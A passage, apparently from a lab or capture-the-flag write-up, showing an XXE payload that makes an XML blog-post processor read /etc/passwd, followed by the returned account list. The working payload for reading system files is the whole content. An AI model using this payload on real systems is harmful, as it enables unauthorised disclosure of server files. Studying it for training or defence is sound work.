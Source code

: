 ````
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<xml>
	<Author>Cooper</Author>
	<Subject>Subject</Subject>
	<Content>&xxe;</Content>
</xml>
````

With the result: 

````
PROCESSED BLOGPOST: 
  Author: Cooper
 Subject: Subject
 Content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
````
